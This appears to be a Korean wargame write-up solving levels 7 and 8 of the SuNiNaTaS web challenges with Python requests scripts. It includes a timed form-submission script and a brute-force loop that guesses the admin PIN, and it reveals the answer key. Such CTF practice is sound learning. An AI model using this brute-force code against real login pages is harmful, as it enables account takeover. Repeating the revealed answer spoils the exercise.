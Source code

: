 
## level 7 - GET POST
Level7 페이지 중간의 YES 버튼을 페이지가 뜨자마자 아주 빠르게 클릭하면 성공하는 문제이다. 서버는 GET request 와 POST request 사이의 시간 간격을 계산하여 정답 여부를 판별한다. 페이지 소스를 보면, YES 버튼은 클릭하면 frm이라는 이름의 폼을 ./web07_1.asp로 전송함을 확인할 수 있다. frm 폼에는 Do+U+Like+girls%3F라는 값을 가진 web07 이라는 이름의 input 데이터가 존재한다. 파이썬 모듈을 이용해 자동화 한다.

```python
import requests

login_url = 'http://suninatas.com/member/mem_action.asp'
with requests.Session() as s:
    main_login = {'Hid': '', 'Hpw': ''}

    main_login_req = s.post(login_url, data=main_login)

    if main_login_req.status_code != 200:
        raise Exception('connection error')
    
    #로그인 세션 유지
    level7 = 'http://suninatas.com/Part_one/web07/web07.asp'
    level7_1 = 'http://suninatas.com/Part_one/web07/web07_1.asp'
    data = {'web07': 'Do+U+Like+girls%3F'}
    enter = s.get(level7)
    submit = s.post(level7_1, data=data)
    if submit.status_code != 200:
        raise Exception('error')
    
    f = open('level7.txt', 'w')
    f.write(submit.text)
```


## level 8 - Brute force
페이지 소스를 보면, id는 ‘admin’, pw는 1부터 9999 사이의 숫자라는 힌트를 확인할 수 있다. 무차별 대입 공격을 시행한다. 파이썬 모듈을 이용해 자동화 한다. key value는 7707이다. 

```python
import requests
from bs4 import BeautifulSoup as bs

login_url = 'http://suninatas.com/member/mem_action.asp'
with requests.Session() as s:
    main_login = {'Hid': '', 'Hpw': ''}

    main_login_req = s.post(login_url, data=main_login)

    if main_login_req.status_code != 200:
        raise Exception('connection error')
    
    #로그인 세션 유지
    level8 = 'http://suninatas.com/Part_one/web08/web08.asp'

    level8_login = {'id': 'admin', 'pw': 1}

    for i in range(1, 9999):
        print('current pw :', level8_login['pw'])

        login_req = s.post(level8, data=level8_login)
        html = login_req.text
        if 'Incorrect' in html:
            print('incorrect\n')
            level8_login['pw'] += 1
        else:
            print('success')
```